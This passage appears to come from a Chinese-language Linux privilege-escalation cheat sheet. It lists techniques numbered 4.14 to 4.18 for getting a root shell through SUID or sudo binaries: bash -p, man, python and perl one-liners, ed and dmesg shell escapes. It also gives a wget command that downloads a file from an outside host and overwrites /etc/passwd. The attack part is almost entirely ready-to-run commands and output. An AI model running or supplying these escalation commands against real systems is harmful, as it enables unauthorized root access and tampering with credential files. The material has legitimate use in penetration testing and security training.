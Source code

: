 ```shell
id
#uid=1024(qsdz) gid=999(qsdz) groups=999(qsdz)
bash -p
#生成一个  bash-3.2#
bash-3.2# id
#uid=1024(qsdz) gid=999(qsdz) euid=0(root) groups=999(qsdz)
```

## 4.14 man 提权

```
man passwd
!/bin/bash
```

## 4.15 wget提权

```
wget http://192.168.56.1:8080/passwd -O /etc/passwd
```

## 4.16 各种语言

```python
python
python -c "import os;os.system('/bin/bash')"

perl
exec "/bin/bash";
```

## 4.17 ed命令提权

```shell
ed是Linux中功能最简单的文本编辑程序,一次仅能编辑一行而非全屏幕方式的操作。我们在命令行模式执行命令：
ed
!whoami
root
!
```

## 4.18 dmesg命令提权

显示Linux系统启动信息
 dmesg命令 被用于检查和控制内核的环形缓冲区。kernel会将开机信息存储在ring buffer中。您若是开机时来不及查看信息，可利用dmesg来查看。开机信息保存在/var/log/dmesg文件里。
 :::info
 dmesg -H
 :::
 进入命令行模式，`!command`执行命令
 [![image (12).png](assets/a5b3cdfa-1489-48df-a0a5-aef101c42583.png)](https://storage.tttang.com/media/attachment/2022/10/28/a5b3cdfa-1489-48df-a0a5-aef101c42583.png)
